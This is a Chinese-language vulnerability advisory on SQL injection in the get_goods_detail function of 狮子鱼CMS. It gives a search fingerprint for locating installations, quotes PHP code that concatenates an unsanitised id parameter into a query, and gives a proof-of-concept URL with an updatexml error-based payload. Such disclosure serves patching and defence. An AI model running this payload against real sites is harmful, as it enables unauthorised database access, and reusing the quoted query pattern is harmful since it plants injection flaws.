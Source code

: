 # 狮子鱼CMS ApigoodController.class.php SQL注入漏洞

# 狮子鱼CMS ApigoodController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php 参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下

![](/images/202202170929313.png)

存在漏洞的文件为 **ApigoodsController.class.php** , 关键位置为

```php
 public function get_goods_detail() {
        $id = I('get.id');
        $pin_id = I('get.pin_id', 0);
		
		$token = I('get.token');
		
		$weprogram_token = M('weprogram_token')->field('member_id')->where( array('token' =>$token) )->find();
		$member_id = $weprogram_token['member_id'];
		
		
		 
		
        $need_data = array();
        $sql = "select g.*,gd.description,gd.is_untake_level,level_discount,gd.video_src,gd.video_size_width,gd.vedio_size_height,gd.is_video,
            gd.summary,gd.share_title,gd.activity_summary,gd.tag from " . C('DB_PREFIX') . "goods g," . C('DB_PREFIX') . "goods_description gd where g.goods_id=gd.goods_id and g.goods_id=" . $id;
        $goods = M()->query($sql);
        $pin_model = D('Home/Pin');
        $goods_model = D('Home/Goods');
        $qian = array(
            "/Uploads/image"
        );
		$c_site_url = str_replace('/dan','',C('SITE_URL'));
        $hou = array(
            $c_site_url . "/Uploads/image"
        );
		$goods[0]['video_src'] = C('SITE_URL')."Uploads/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/".$goods[0]['video_src'];
		
        $goods[0]['description'] = str_replace($qian, $hou, $goods[0]['description']);
        $goods[0]['description'] = htmlspecialchars_decode($goods[0]['description']);
        $qian = array(
            "\r\n"
        );
```

![](/images/202202170929712.png)

漏洞测试为

```plain
https://xxx.xxx.xx.xxx/index.php?s=apigoods/get_goods_detail&id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```

![](/images/202202170929602.png)

